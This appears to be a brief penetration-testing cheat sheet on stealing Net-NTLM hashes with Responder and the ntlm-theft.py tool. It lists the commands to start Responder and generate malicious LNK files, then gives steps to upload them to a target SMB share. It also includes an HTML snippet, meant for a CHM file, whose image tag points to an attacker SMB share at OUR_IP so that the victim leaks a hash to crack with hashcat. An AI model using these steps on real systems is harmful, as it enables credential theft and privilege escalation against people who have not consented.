## Net-NTLM Hash stealing with Responder

## Tools synergizing with Responder: ntlm-theft.py

### Requirements: The user you want to escalate to should react with your malicious file/responder SMB server in a way that it calls back to your responder listener to dump his Net-NTLM hash to crack with hashcat.

### Usage:

#### sudo responder -I tun0 (Turn on responder)

## There are various ways to steal hashes with responder, but they have all similar philosophy behind the technique

### .LNK Files

#### 1) python3 ntlm-theft.py -g all -s OUR_IP -f FOLDER (Generates any malicious file it can make (LNK included) all inside the specified folder name)

#### 2) sudo responder -I tun0 (Start responder)

#### 3) Upload malicious file to the target SMB server/target machine (Depends on the context of the use case your are dealing with)

#### 4) PROFIT

### .CHM Files

#### 1) Create an HTML document that points to your SMB server

#### <html>
####   <body>
####     <img src=\\OUR_IP\share\WHATEVER.png />
####        </body>
#### </html>
